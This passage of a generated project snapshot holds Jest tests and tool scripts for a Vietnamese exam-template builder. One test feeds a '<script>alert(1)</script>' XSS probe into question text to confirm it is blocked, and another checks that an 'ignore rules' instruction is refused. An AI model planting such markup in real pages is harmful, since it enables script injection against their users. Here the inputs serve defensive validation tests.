const full = `=PHAN_1=\n${mcq}\n=PHAN_2=\n${essay}`;

test('all 3 groups and 5 variants keep exact dynamic obligations', () => {
  for (const aiVariant of Object.keys(VARIANTS)) {
    for (const promptGroup of ['FULL_EXAM', 'SELECTED_SLOTS', 'REVIEW_REPAIR']) {
      const input = { template, aiVariant, promptGroup, selectedSlotIds: ['builtin.t07.s02.q001'] };
      const a = buildTemplatePrompt(input);
      expect(a).toEqual(buildTemplatePrompt(input));
      expect(a.prompt).toContain('Ma_Khung: builtin.t07.s02.q001');
      expect(a.prompt).toContain('Diem: 2.00');
      expect(a.prompt).toContain('So_Dong_Nhap: 8');
      expect(a.targetSlotIds).toHaveLength(promptGroup === 'FULL_EXAM' ? 2 : 1);
      if (promptGroup !== 'FULL_EXAM') expect(a.prompt).not.toContain('Ma_Khung: builtin.t07.s01.q001');
    }
  }
  const changed = structuredClone(template);
  changed.sections[1].slots[0].points = '2.50';
  expect(buildTemplatePrompt({ template: changed }).sha256).not.toBe(buildTemplatePrompt({ template }).sha256);
});

test('metadata stripped before legacy parser and exact IDs mapped', async () => {
  const entries = await parseTemplateResponse(full);
  expect(entries).toHaveLength(2);
  expect(entries[1].question.correct_answer).toBe('x = 2.');
  const draft = await prepareTemplateApply({ template, rawText: full });
  expect(draft.valid).toBe(true);
  expect(draft.assignments.map(x => x.slot_id)).toEqual(['builtin.t07.s01.q001', 'builtin.t07.s02.q001']);
  expect(() => applyTemplateDraft({ draft })).toThrow('xác nhận');
  const existing = { untouched: { content: 'keep' } };
  const applied = applyTemplateDraft({ currentContent: existing, draft, confirmed: true });
  expect(applied.content.untouched).toEqual(existing.untouched);
  expect(existing['builtin.t07.s01.q001']).toBeUndefined();
  expect(applied.undo['builtin.t07.s01.q001']).toBeNull();
});

test('partial mapping preserves untouched and rejects score override', async () => {
  const selectedSlotIds = ['builtin.t07.s02.q001'];
  const currentContent = { 'builtin.t07.s01.q001': { content: 'old' } };
  const draft = await prepareTemplateApply({ template, rawText: `=PHAN_2=\n${essay}`, promptGroup: 'SELECTED_SLOTS', selectedSlotIds, currentContent });
  expect(draft.valid).toBe(true);
  expect(applyTemplateDraft({ draft, currentContent, confirmed: true }).content['builtin.t07.s01.q001']).toEqual({ content: 'old' });
  const bad = await prepareTemplateApply({ template, rawText: `=PHAN_2=\n${essay.replace('Diem: 2.00', 'Diem: 3.00')}`, promptGroup: 'SELECTED_SLOTS', selectedSlotIds });
  expect(bad.valid).toBe(false);
  expect(bad.issues.some(x => x.code === 'POINTS_MISMATCH')).toBe(true);
});

test('missing IDs only suggest a unique slot; duplicate and extra IDs fail', async () => {
  const noId = await prepareTemplateApply({ template, rawText: `=PHAN_2=\n${essay.replace('Ma_Khung: builtin.t07.s02.q001\n', '')}`, promptGroup: 'SELECTED_SLOTS', selectedSlotIds: ['builtin.t07.s02.q001'] });
  expect(noId.valid).toBe(true);
  expect(noId.issues.some(x => x.code === 'INFERRED_SLOT')).toBe(true);
  const duplicate = await prepareTemplateApply({ template, rawText: `=PHAN_1=\n${mcq}\n${mcq}` });
  expect(duplicate.valid).toBe(false);
  expect(duplicate.issues.some(x => x.code === 'DUPLICATE_SLOT')).toBe(true);
  const extra = await prepareTemplateApply({ template, rawText: `=PHAN_1=\n${mcq.replace('builtin.t07.s01.q001', 'unknown')}` });
  expect(extra.issues.some(x => x.code === 'UNEXPECTED_SLOT')).toBe(true);
});

test('size/control input rejected', async () => {
  await expect(parseTemplateResponse('\u0000[CAU_HOI]')).rejects.toThrow('điều khiển');
  await expect(parseTemplateResponse('a'.repeat(512 * 1024 + 1))).rejects.toThrow('512 KiB');
});

test('duplicate fields and unsafe markup are blocked before apply', async () => {
  const duplicate = await prepareTemplateApply({ template, rawText: `=PHAN_1=\n${mcq.replace('Dap_An: B', 'Dap_An: A\nDap_An: B')}`, promptGroup: 'SELECTED_SLOTS', selectedSlotIds: ['builtin.t07.s01.q001'] });
  expect(duplicate.valid).toBe(false);
  expect(duplicate.issues.some(x => x.code === 'DUPLICATE_FIELD')).toBe(true);
  const unsafe = await prepareTemplateApply({ template, rawText: `=PHAN_1=\n${mcq.replace('Tính 2 + 3.', '<script>alert(1)</script>')}`, promptGroup: 'SELECTED_SLOTS', selectedSlotIds: ['builtin.t07.s01.q001'] });
  expect(unsafe.issues.some(x => x.code === 'UNSAFE_MARKUP')).toBe(true);
});

test('validate-only P3 produces a report that cannot apply', () => {
  const selectedSlotIds = ['builtin.t07.s02.q001'];
  const built = buildTemplatePrompt({ template, promptGroup: 'REVIEW_REPAIR', selectedSlotIds, repairIntent: 'validate-only' });
  expect(built.outputKind).toBe('review-report-v1');
  const report = parseTemplateReviewReport(JSON.stringify({ rulesetVersion: built.rulesetVersion, issues: [{ slot_id: selectedSlotIds[0], severity: 'warning', message: 'Cần kiểm tra lời giải.' }] }), selectedSlotIds);
  expect(report.canApply).toBe(false);
  expect(() => parseTemplateReviewReport(JSON.stringify({ rulesetVersion: built.rulesetVersion, issues: [{ slot_id: 'other', severity: 'warning', message: 'x' }] }), selectedSlotIds)).toThrow('ngoài phạm vi');
});

test('unique legacy question without metadata can be reviewed while template owns points', async () => {
  const rawText = `=PHAN_1=\n${mcq.replace(/Ma_Khung:.*\nMa_Phan:.*\nDiem:.*\n/, '').replace('So_Dong_Nhap: 0', '')}`;
  const draft = await prepareTemplateApply({ template, rawText, promptGroup: 'SELECTED_SLOTS', selectedSlotIds: ['builtin.t07.s01.q001'] });
  expect(draft.valid).toBe(true);
  expect(draft.issues.map(x => x.code)).toEqual(expect.arrayContaining(['INFERRED_SLOT', 'LEGACY_POINTS', 'LEGACY_LINES']));
});

describe('P3 repair intents', () => {
  const essayId = 'builtin.t07.s02.q001';
  const harder = essay.replace('Muc_Do: Van_Dung', 'Muc_Do: Van_Dung_Cao');

  test('TC-P3-01: tang do kho yeu cau Muc_Do moi cao hon mot muc trong prompt', () => {
    const { prompt } = buildTemplatePrompt({ template, promptGroup: 'REVIEW_REPAIR', aiVariant: 'Claude', selectedSlotIds: [essayId], repairIntent: 'increase-difficulty' });
    expect(prompt).toContain('Muc_Do: Van_Dung_Cao');
    expect(prompt).toContain('increase-difficulty');
  });

  test('TC-P3-02: tang do kho chap nhan muc moi, nhung sua thuong van bat lech muc do', async () => {
    const ok = await prepareTemplateApply({ template, rawText: `=PHAN_2=\n${harder}`, promptGroup: 'REVIEW_REPAIR', selectedSlotIds: [essayId], repairIntent: 'increase-difficulty' });
    expect(ok.valid).toBe(true);
    const strict = await prepareTemplateApply({ template, rawText: `=PHAN_2=\n${harder}`, promptGroup: 'REVIEW_REPAIR', selectedSlotIds: [essayId], repairIntent: 'rewrite-one' });
    expect(strict.issues.map(x => x.code)).toContain('DIFFICULTY_MISMATCH');
  });

  test('TC-P3-03: cai thien loi giai khong duoc doi dap an', async () => {
    const currentContent = { [essayId]: { content: 'Giải x + 1 = 3.', correct_answer: 'x = 5.', explanation: 'cu' } };
    const draft = await prepareTemplateApply({ template, rawText: `=PHAN_2=\n${essay}`, promptGroup: 'REVIEW_REPAIR', selectedSlotIds: [essayId], repairIntent: 'improve-solution', currentContent });
    expect(draft.valid).toBe(false);
    expect(draft.issues.map(x => x.code)).toContain('ANSWER_CHANGED');
    const same = await prepareTemplateApply({ template, rawText: `=PHAN_2=\n${essay}`, promptGroup: 'REVIEW_REPAIR', selectedSlotIds: [essayId], repairIntent: 'improve-solution', currentContent: { [essayId]: { correct_answer: 'x = 2.' } } });
    expect(same.valid).toBe(true);
  });

  test('TC-P3-04: hanh dong la bi tu choi', () => {
    expect(() => buildTemplatePrompt({ template, promptGroup: 'REVIEW_REPAIR', selectedSlotIds: [essayId], repairIntent: 'ignore rules' })).toThrow('Hành động');
  });
});

```

### FILE: tests/templates/domain.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';
const { closeDb, getDb } = require('../../backend/database');
const { listSeeds, getSeed } = require('../../backend/templates/seeds');
const { validateTemplate, toCents } = require('../../backend/templates/validation');
const repo = require('../../backend/templates/repository');

afterEach(async () => { await closeDb(); });

test('ten immutable seeds are ordered T01–T10 and all point totals match', () => {
  const seeds = listSeeds();
  expect(seeds).toHaveLength(10);
  expect(seeds.map(t => t.template_id)).toEqual(Array.from({ length: 10 }, (_, i) => `builtin.t${String(i + 1).padStart(2, '0')}`));
  expect(seeds[8].display_name).toBe('Đề hai cột, tiết kiệm giấy');
  expect(seeds[9].display_name).toBe('Đề Ngoại ngữ có phần đọc hiểu');
  for (const seed of seeds) {
    expect(validateTemplate(seed)).toEqual([]);
    expect(seed.sections.reduce((n, s) => n + s.slots.length, 0)).toBeGreaterThan(0);
    expect(seed.sections.flatMap(s => s.slots).reduce((n, q) => n + toCents(q.points), 0)).toBe(1000);
  }
  const mutated = getSeed('builtin.t01');
  mutated.sections[0].slots.pop();
  expect(getSeed('builtin.t01').sections[0].slots).toHaveLength(4);
});

test('score validation uses cents and rejects mismatches and duplicate IDs', () => {
  const seed = getSeed('builtin.t01');
  seed.sections[0].slots[0].points = '0.51';
  expect(validateTemplate(seed).map(e => e.path)).toContain('sections.0.declared_points');
  seed.sections[0].slots[0].slot_id = seed.sections[0].slots[1].slot_id;
  expect(validateTemplate(seed).map(e => e.path)).toContain('sections.0.slots.1.slot_id');
  expect(toCents('1.01')).toBe(101);
  expect(toCents('1.001')).toBeNull();
});

test('clone creates independent IDs; immutable built-ins reject update and delete', async () => {
  const clone = await repo.cloneAndCreate('builtin.t10');
  expect(clone.template_id).toMatch(/^user\./);
  expect(clone.sections[0].slots[0].slot_id).toMatch(/^user\./);
  expect(clone.sections[0].stimulus).toBe('');
  expect(validateTemplate(clone)).toEqual([]);
  await expect(repo.updateTemplate('builtin.t10', clone, 1)).rejects.toMatchObject({ status: 403 });
  await expect(repo.deleteTemplate('builtin.t10')).rejects.toMatchObject({ status: 403 });
  expect((await repo.listTemplates()).length).toBe(11);
});

test('revisions persist, optimistic locking prevents overwrite, and soft delete keeps history', async () => {
  const clone = await repo.cloneAndCreate('builtin.t01');
  clone.display_name = 'Mẫu kiểm tra của tôi';
  const saved = await repo.updateTemplate(clone.template_id, clone, 1);
  expect(saved.template_version).toBe(2);
  expect((await repo.getTemplate(clone.template_id, 1)).template_version).toBe(1);
  await expect(repo.updateTemplate(clone.template_id, clone, 1)).rejects.toMatchObject({ status: 409 });
  expect((await repo.getTemplate(clone.template_id)).display_name).toBe('Mẫu kiểm tra của tôi');
  await repo.deleteTemplate(clone.template_id);
  expect(await repo.getTemplate(clone.template_id)).toBeNull();
  const db = await getDb();
  expect((await db.all('SELECT * FROM TEMPLATE_VERSION WHERE template_id = ?', [clone.template_id]))).toHaveLength(2);
});

test('large template with 100 slots validates quickly and enforces bounds', () => {
  const seed = getSeed('builtin.t05'); // 20 MCQ questions
  // Build a 100-slot template
  const large = structuredClone(seed);
  large.template_id = 'user.large-100';
  large.origin = 'user';
  large.sections[0].slots = Array.from({ length: 100 }, (_, i) => ({
    slot_id: `user.large.s01.q${String(i + 1).padStart(3, '0')}`,
    position: i,
    question_type: 'MCQ',
    difficulty_level: 'NB',
    points: '0.10',
    required: true,
    answer_space: { kind: 'none', lines: 0, min_lines: 0, max_lines: 0, auto_expand: false },
    content: null,
    assets: []
  }));
  large.sections[0].declared_points = '10.00';
  large.defaults.total_points = '10.00';

  const start = Date.now();
  const errors = validateTemplate(large);
  const elapsed = Date.now() - start;

  expect(errors).toEqual([]);
  expect(elapsed).toBeLessThan(100); // Phải validate cực nhanh dưới 100ms
});

```

### FILE: tests/templates/routes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';
const express = require('express');
const request = require('supertest');
const router = require('../../backend/routes/templateRoutes');
const { closeDb } = require('../../backend/database');

const app = express();
app.use(express.json());
app.use('/api/templates', router);
afterEach(async () => closeDb());

test('catalog, search, clone, update and delete through API', async () => {
  const catalog = await request(app).get('/api/templates');
  expect(catalog.status).toBe(200);
  expect(catalog.body.templates).toHaveLength(10);
  const search = await request(app).get('/api/templates?search=Ngoại%20ngữ');
  expect(search.body.templates.map(t => t.template_id)).toEqual(['builtin.t10']);
  const cloned = await request(app).post('/api/templates/builtin.t10/clone').send({ display_name: 'Ngoại ngữ của tôi' });
  expect(cloned.status).toBe(201);
  const template = cloned.body.template;
  expect(template.sections[0].slots).toHaveLength(4);
  const edited = structuredClone(template);
  edited.display_name = 'Ngoại ngữ sửa';
  const saved = await request(app).put(`/api/templates/${template.template_id}`).send({ expected_version: 1, template: edited });
  expect(saved.status).toBe(200);
  expect(saved.body.template.template_version).toBe(2);
  expect((await request(app).put(`/api/templates/${template.template_id}`).send({ expected_version: 1, template: edited })).status).toBe(409);
  expect((await request(app).delete(`/api/templates/${template.template_id}`)).status).toBe(200);
  expect((await request(app).get(`/api/templates/${template.template_id}`)).status).toBe(404);
});

test('built-ins are read-only and invalid score rejected', async () => {
  const source = (await request(app).get('/api/templates/builtin.t01')).body.template;
  expect((await request(app).delete('/api/templates/builtin.t01')).status).toBe(403);
  expect((await request(app).put('/api/templates/builtin.t01').send({ expected_version: 1, template: source })).status).toBe(403);
  source.sections[0].slots[0].points = '9.99';
  const response = await request(app).post('/api/templates/validate').send({ template: source });
  expect(response.status).toBe(400);
  expect(response.body.details.some(e => e.path === 'defaults.total_points')).toBe(true);
});

```

### FILE: tools/docx-to-pdf.ps1

```
param(
  [Parameter(Mandatory = $true)][string]$InputPath,
  [Parameter(Mandatory = $true)][string]$OutputPath
)

$ErrorActionPreference = 'Stop'
$word = $null
$document = $null
try {
  $word = New-Object -ComObject Word.Application
  $word.Visible = $false
  $word.DisplayAlerts = 0
  $word.AutomationSecurity = 3
  $document = $word.Documents.Open($InputPath, $false, $true, $false)
  $document.ExportAsFixedFormat($OutputPath, 17)
} finally {
  if ($null -ne $document) {
    $document.Close(0)
    [Runtime.InteropServices.Marshal]::ReleaseComObject($document) | Out-Null
  }
  if ($null -ne $word) {
    $word.Quit()
    [Runtime.InteropServices.Marshal]::ReleaseComObject($word) | Out-Null
  }
}

```

### FILE: tools/export-blueprint.js

```javascript
#!/usr/bin/env node
/**
 * Quet file duoc git track va file moi chua stage (ton trong .gitignore)
 * va xuat thanh 1 file documents/PROJECT_BLUEPRINT.md duy nhat: metadata, cay thu muc,
 * noi dung file cau hinh, va toan bo source code.
 *
 * Luon doc truc tiep tu file that tren dia nen khong bao gio bi lech du lieu -
 * chay lai script nay bat cu luc nao can ban snapshot moi, khong can dong bo tay.
 *
 *   node tools/export-blueprint.js
 */
const fs = require('fs');
const path = require('path');
const { execSync } = require('child_process');

const ROOT = path.join(__dirname, '..');
const OUTPUT = path.join(ROOT, 'documents', 'PROJECT_BLUEPRINT.md');

// File tu dong sinh, qua lon, khong mang thong tin "source" (tai lap duoc
// bang npm install tu package.json) - khong nhung noi dung, chi ghi chu.
const EXCLUDE_FROM_DUMP = new Set(['package-lock.json']);

const BINARY_EXT = new Set(['.png', '.jpg', '.jpeg', '.gif', '.ico', '.webp', '.jar', '.apk', '.keystore', '.jks', '.woff', '.woff2', '.ttf', '.otf']);

const LANG_MAP = {
  '.js': 'javascript', '.cjs': 'javascript', '.mjs': 'javascript',
  '.json': 'json', '.html': 'html', '.css': 'css', '.md': 'markdown',
  '.kt': 'kotlin', '.kts': 'kotlin', '.xml': 'xml', '.properties': 'properties',
  '.txt': 'text', '.bat': 'batch', '.pro': 'text', '.gradle': 'groovy'
};

function getTrackedFiles() {
  const out = execSync('git ls-files --cached --others --exclude-standard', { cwd: ROOT, encoding: 'utf8' });
  return [...new Set(out.split('\n').map(l => l.trim()).filter(Boolean))]
    .filter(f => f !== 'documents/PROJECT_BLUEPRINT.md');
}

function isBinaryFile(f) {
  return BINARY_EXT.has(path.extname(f).toLowerCase());
}

function isConfigFile(f) {
  const base = path.basename(f);
  if (base === 'package.json' || base === '.gitignore' || base === 'babel.config.cjs') return true;
  if (f.startsWith('Exam builder for adr/')) {
    if (base.endsWith('.gradle.kts') || base === 'proguard-rules.pro') return true;
    if (base === 'gradle.properties' || base === 'gradle-wrapper.properties') return true;
    if (base === 'AndroidManifest.xml') return true;
    if (f.includes('/res/values/') || f.includes('/res/xml/') || f.includes('/mipmap-anydpi')) return true;
  }
  return false;
}

function langFor(f) {
  if (path.basename(f) === '.gitignore') return 'text';
  return LANG_MAP[path.extname(f).toLowerCase()] || '';
}

// Fence dai hon so voi run backtick dai nhat co trong content, de khong bi
// "vo tinh dong fence som" khi 1 file source chua san vi du code markdown.
function fenceFor(content) {
  const runs = content.match(/`+/g) || [];
  const maxRun = runs.reduce((m, s) => Math.max(m, s.length), 0);
  return '`'.repeat(Math.max(3, maxRun + 1));
}

function renderFile(f) {
  const abs = path.join(ROOT, f);
  let content;
  try {
    content = fs.readFileSync(abs, 'utf8');
  } catch (err) {
    return `### FILE: ${f}\n\n> Khong doc duoc file: ${err.message}\n\n`;
  }
  const fence = fenceFor(content);
  const lang = langFor(f);
  return `### FILE: ${f}\n\n${fence}${lang}\n${content}\n${fence}\n\n`;
}

function buildTree(files) {
  const root = {};
  for (const f of files) {
    const parts = f.split('/');
    let node = root;
    parts.forEach((part, i) => {
      if (i === parts.length - 1) {
        node[part] = null; // file = leaf
      } else {
        node[part] = node[part] || {};
        node = node[part];
      }
    });
  }
  const lines = ['.'];
  (function walk(node, prefix) {
    const keys = Object.keys(node).sort((a, b) => {
      const aDir = node[a] !== null, bDir = node[b] !== null;
      if (aDir !== bDir) return aDir ? -1 : 1;
      return a.localeCompare(b);
    });
    keys.forEach((key, idx) => {
      const isLast = idx === keys.length - 1;
      const isDir = node[key] !== null;
      lines.push(prefix + (isLast ? '└── ' : '├── ') + key + (isDir ? '/' : ''));
      if (isDir) walk(node[key], prefix + (isLast ? '    ' : '│   '));
    });
  })(root, '');
  return lines.join('\n');
}

function buildMetadata(pkg) {
  const deps = Object.keys(pkg.dependencies || {});
  const devDeps = Object.keys(pkg.devDependencies || {});
  const scripts = Object.entries(pkg.scripts || {}).map(([k, v]) => `- \`npm run ${k}\` → ${v}`).join('\n');
  return `# METADATA

- **Ten du an**: ${pkg.name}
- **Mo ta**: ${pkg.description || '(khong co)'}
- **Phien ban**: ${pkg.version}
- **Tech stack**: Node.js + Express (backend REST API, SQLite qua \`sqlite\`/\`sqlite3\`) · Frontend HTML/CSS/JS thuan (khong framework) · Android app (Kotlin + Jetpack Compose) trong \`Exam builder for adr/\`
- **Dependencies**: ${deps.join(', ')}
- **Dev dependencies**: ${devDeps.join(', ')}

## Cai dat & chay (web app)

\`\`\`bash
npm install
npm start                # chay server: http://localhost:3000 (mac dinh PORT=3000)
npm test                 # chay toan bo test (Jest)
npm run test:coverage    # test + bao cao coverage cho thu muc backend/
\`\`\`

Cac lenh npm khac dinh nghia trong package.json:
${scripts}

Bien moi truong: \`PORT\` (mac dinh 3000), \`EXAM_DB_PATH\` (mac dinh \`backend/exam.db\`, tu tao khi chay lan dau).

## Android app (\`Exam builder for adr/\`)

Mo bang Android Studio hoac build CLI bang Gradle wrapper trong thu muc do. Can JDK 24 (khong dung JBR Java 25 di kem Android Studio) - xem \`Exam builder for adr/README.md\`.

`;
}

function main() {
  const files = getTrackedFiles();
  const pkg = JSON.parse(fs.readFileSync(path.join(ROOT, 'package.json'), 'utf8'));

  const configFiles = files.filter(f => isConfigFile(f));
  const binaryFiles = files.filter(f => !isConfigFile(f) && isBinaryFile(f));
  const sourceFiles = files.filter(f => !isConfigFile(f) && !isBinaryFile(f) && !EXCLUDE_FROM_DUMP.has(f));

  let md = '';
  md += buildMetadata(pkg);

  md += `# DIRECTORY TREE\n\n\`\`\`\n${buildTree(files)}\n\`\`\`\n\n`;

  md += `# CONFIG FILES\n\n`;
  for (const f of configFiles) md += renderFile(f);
  if (EXCLUDE_FROM_DUMP.size) {
    md += `> File sau KHONG nhung noi dung (tu dong sinh boi npm, tai lap chinh xac qua \`npm install\` tu package.json, qua lon de nhung ben duoi): ${[...EXCLUDE_FROM_DUMP].join(', ')}\n\n`;
  }

  md += `# SOURCE CODE\n\n`;
  for (const f of sourceFiles) md += renderFile(f);

  if (binaryFiles.length) {
    md += `# BINARY FILES (khong nhung noi dung nhi phan, chi liet ke duong dan)\n\n`;
    for (const f of binaryFiles) md += `- ${f}\n`;
    md += '\n';
  }

  fs.writeFileSync(OUTPUT, md, 'utf8');
  console.log(`Da tao ${path.relative(ROOT, OUTPUT)}`);
  console.log(`  Tong file trong snapshot (track + moi): ${files.length}`);
  console.log(`  File config: ${configFiles.length}, File source nhung noi dung: ${sourceFiles.length}, File nhi phan (chi liet ke): ${binaryFiles.length}`);
  console.log(`  Dung luong: ${(Buffer.byteLength(md, 'utf8') / 1024).toFixed(0)} KB`);
}

main();

```

### FILE: tools/gen-prompt-variants.js

```javascript
'use strict';
/**
 * Sinh lai frontend/promptVariants.js tu AI_Prompts_Variants.txt (nguon rieng
 * cho phan "khac nhau" giua cac nen tang AI: Gemini/Gemini Pro/ChatGPT/DeepSeek/Claude/Grok).
 * Quy tac dinh dang (KHONG lap lai o day) van lay tu Gemini_Prompt_Unified.txt
 * qua backend/llm/promptBuilder.js#extractFormatInstructions -- nguon duy nhat,
 * de moi bien the luon dong bo dinh dang voi TextPromptParser.
 *
 *   node tools/gen-prompt-variants.js        (hoac: npm run gen:prompt)
 *
 * Sua noi dung trong AI_Prompts_Variants.txt roi chay lai lenh tren.
 */
const fs = require('fs');
const path = require('path');

const ROOT = path.resolve(__dirname, '..');
const { extractFormatInstructions } = require(path.join(ROOT, 'backend/llm/promptBuilder'));

const SRC_PATH = path.join(ROOT, 'AI_Prompts_Variants.txt');
const OUT_PATH = path.join(ROOT, 'frontend/promptVariants.js');

const txt = fs.readFileSync(SRC_PATH, 'utf8');
const sharedInstructions = extractFormatInstructions();

function lineValue(line, key) {
  if (!line.startsWith(key)) return null;
  return line.slice(key.length).trim();
}

function parseVariant(id, body) {
  const lines = body.split('\n');
  let label = null;
  let hint = null;
  let tipStart = -1;
  let topicIdx = -1;
  let exampleStart = -1;

  for (let i = 0; i < lines.length; i++) {
    const line = lines[i];
    if (label === null && line.startsWith('LABEL:')) { label = lineValue(line, 'LABEL:'); continue; }
    if (hint === null && line.startsWith('HINT:')) { hint = lineValue(line, 'HINT:'); continue; }
    if (tipStart === -1 && line.trim() === 'TIP:') { tipStart = i + 1; continue; }
    if (topicIdx === -1 && line.startsWith('EXAMPLE_TOPIC:')) { topicIdx = i; continue; }
    if (exampleStart === -1 && line.trim() === 'EXAMPLE:') { exampleStart = i + 1; break; }
  }

  if (label === null || hint === null || tipStart === -1 || topicIdx === -1 || exampleStart === -1) {
    throw new Error(`Khong parse duoc bien the "${id}" trong AI_Prompts_Variants.txt (thieu LABEL/HINT/TIP/EXAMPLE_TOPIC/EXAMPLE)`);
  }

  const tip = lines.slice(tipStart, topicIdx).join('\n').trim();
  const exampleTopic = lineValue(lines[topicIdx], 'EXAMPLE_TOPIC:');
  const example = lines.slice(exampleStart).join('\n').trim();

  const template = `${sharedInstructions}\n\n${tip}`;

  return { id, label, hint, exampleTopic, template, example };
}

const variants = [];
const blockRe = /##### VARIANT: (\w+) #####\r?\n([\s\S]*?)\r?\n##### END #####/g;
let m;
while ((m = blockRe.exec(txt)) !== null) {
  variants.push(parseVariant(m[1], m[2]));
}

if (variants.length === 0) {
  console.error('Khong tim thay bien the nao (kiem tra moc "##### VARIANT: ... #####" / "##### END #####")');
  process.exit(1);
}
for (const v of variants) {
  if (!v.template.includes('[CAU_HOI]') || !v.example.includes('[CAU_HOI]')) {
    console.error(`Bien the "${v.id}": template/example thieu noi dung "[CAU_HOI]" - kiem tra lai`);
    process.exit(1);
  }
}

const esc = s => s.replace(/\\/g, '\\\\').replace(/`/g, '\\`').replace(/\$\{/g, '\\${');

const entries = variants.map(v => `  {
    id: ${JSON.stringify(v.id)},
    label: ${JSON.stringify(v.label)},
    hint: ${JSON.stringify(v.hint)},
    exampleTopic: ${JSON.stringify(v.exampleTopic)},
    template: \`${esc(v.template)}\`,
    example: \`${esc(v.example)}\`,
  }`).join(',\n');

const out =
`// TU DONG SINH tu AI_Prompts_Variants.txt bang tools/gen-prompt-variants.js -- DUNG SUA TAY.
// Nguon rieng (intro/tip/vi du) la AI_Prompts_Variants.txt o goc du an; quy tac dinh dang dung
// chung van lay tu Gemini_Prompt_Unified.txt. Sua o do roi chay: npm run gen:prompt
export const AI_PROMPT_VARIANTS = [
${entries}
];
`;

fs.writeFileSync(OUT_PATH, out);
console.log(`OK -> frontend/promptVariants.js  (${variants.length} bien the: ${variants.map(v => v.id).join(', ')})`);

```

### FILE: tools/smoke-docx-overlay.cjs

```javascript
const fs = require('fs/promises');
const os = require('os');
const path = require('path');
const crypto = require('crypto');
const { Document, Packer, Paragraph } = require('docx');
const { createCanvas } = require('@napi-rs/canvas');
const { docxToPdf } = require('../backend/documentConvert/docxToPdf');
const { PDFParse } = require('pdf-parse');
const { createTemplateDocx } = require('../backend/templateExport');

async function main() {
  const temp = await fs.mkdtemp(path.join(os.tmpdir(), 'template-docx-overlay-'));
  const previous = process.env.EXAM_BACKGROUNDS_DIR;
  process.env.EXAM_BACKGROUNDS_DIR = temp;
  try {
    const pages = ['#e8f1ff', '#fff2df'].map((color, i) => {
      const canvas = createCanvas(794, 1123);
      const ctx = canvas.getContext('2d'); ctx.fillStyle = color; ctx.fillRect(0, 0, 794, 1123);
      ctx.fillStyle = '#333'; ctx.font = '28px Arial'; ctx.fillText(`BACKGROUND PAGE ${i + 1}`, 70, 100);
      ctx.strokeStyle = '#aa0000'; ctx.strokeRect(70, i ? 450 : 180, 500, 170);
      const data = canvas.toBuffer('image/png');
      const sha256 = crypto.createHash('sha256').update(data).digest('hex');
      const asset_id = `image-${sha256}`;
      const filename = `${asset_id}.png`;
      return fs.writeFile(path.join(temp, filename), data).then(() => fs.writeFile(path.join(temp, `${asset_id}.json`), JSON.stringify({ asset_id, filename, mime: 'image/png', size: data.length, sha256 }))).then(() => ({ page_number: i + 1, asset_id }));
    });
    const pageAssets = await Promise.all(pages);
    const template = { template_id: 'smoke.overlay', display_name: 'Overlay smoke', defaults: {}, sections: [{ section_id: 's1', title: 'Câu hỏi', slots: [
      { slot_id: 'q1', points: '1.00', question_type: 'ESSAY', answer_space: { kind: 'blank', lines: 2 }, manual_region: { page_number: 1, x_pct: 10, y_pct: 15, width_pct: 65, height_pct: 20 } },
      { slot_id: 'q2', points: '1.00', question_type: 'ESSAY', answer_space: { kind: 'blank', lines: 2 }, manual_region: { page_number: 2, x_pct: 10, y_pct: 40, width_pct: 65, height_pct: 20 } }
    ] }], appearance: { background: { asset_id: pageAssets[0].asset_id, pages: pageAssets } } };
    const docx = await createTemplateDocx({ template, content: { q1: { content: 'QUESTION ONE IN POSITION' }, q2: { content: 'QUESTION TWO IN POSITION' } }, mode: 'student', maxPages: 1 });
    await fs.writeFile(path.join(temp, 'render-input.docx'), docx.buffer);
    console.log(`DOCX smoke file: ${path.join(temp, 'render-input.docx')}`);
    const pdf = await docxToPdf(docx.buffer);
    const parser = new PDFParse({ data: pdf });
    try {
      const info = await parser.getInfo({ parsePageInfo: false });
      const images = await parser.getScreenshot({ partial: [1, 2], desiredWidth: 960, imageBuffer: true, imageDataUrl: false });
      await fs.writeFile(path.join(temp, 'page-1.png'), images.pages[0].data);
      await fs.writeFile(path.join(temp, 'page-2.png'), images.pages[1].data);
      const maxPageWarning = docx.analysis.warnings.some(warning => warning.code === 'MAX_PAGES_ESTIMATE');
      if (info.total !== 2 || !maxPageWarning || !images.pages[0].data.length || !images.pages[1].data.length) throw new Error('Word PDF render did not preserve both pages or the max-page warning.');
      console.log(JSON.stringify({ pageCount: info.total, maxPageWarning, rasterizedBytes: images.pages.reduce((sum, page) => sum + page.data.length, 0), previews: [path.join(temp, 'page-1.png'), path.join(temp, 'page-2.png')] }));
    } finally { await parser.destroy(); }
  } finally {
    if (previous === undefined) delete process.env.EXAM_BACKGROUNDS_DIR;
    else process.env.EXAM_BACKGROUNDS_DIR = previous;
  }
}

main().catch(error => { console.error(error); process.exitCode = 1; });

```

### FILE: tools/smoke-pdf-background-import.cjs

```javascript
const fs = require('fs/promises');
const os = require('os');
const path = require('path');
const express = require('express');
const request = require('supertest');
const { Document, Packer, Paragraph } = require('docx');
const { docxToPdf } = require('../backend/documentConvert/docxToPdf');
const backgroundRoutes = require('../backend/routes/backgroundRoutes');

async function main() {
  const root = await fs.mkdtemp(path.join(os.tmpdir(), 'pdf-background-smoke-'));
  process.env.EXAM_BACKGROUNDS_DIR = path.join(root, 'images');
  process.env.EXAM_TEMPLATE_ASSETS_DIR = path.join(root, 'documents');
  try {
    const children = [];
    for (let page = 1; page <= 14; page++) children.push(new Paragraph({ text: `PDF BACKGROUND PAGE ${page}`, pageBreakBefore: page > 1 }));
    const docx = await Packer.toBuffer(new Document({ sections: [{ children }] }));
    const pdf = await docxToPdf(docx);
    const app = express(); app.use('/api/backgrounds', backgroundRoutes);
    const response = await request(app).post('/api/backgrounds/import').field('mode', 'background').attach('file', pdf, 'fourteen-pages.pdf');
    if (response.status !== 200) throw new Error(JSON.stringify(response.body));
    if (response.body.background_pages.length !== 14) throw new Error(`Expected 14 rendered pages, got ${response.body.background_pages.length}`);
    const totalBytes = response.body.background_pages.reduce((sum, page) => sum + page.size, 0);
    console.log(JSON.stringify({ pdfBytes: pdf.length, pageCount: response.body.background_pages.length, rasterBytes: totalBytes, firstPage: response.body.background_pages[0], lastPage: response.body.background_pages.at(-1), warnings: response.body.warnings }));
  } finally {
    delete process.env.EXAM_BACKGROUNDS_DIR; delete process.env.EXAM_TEMPLATE_ASSETS_DIR;
    await fs.rm(root, { recursive: true, force: true });
  }
}

main().catch(error => { console.error(error); process.exitCode = 1; });

```

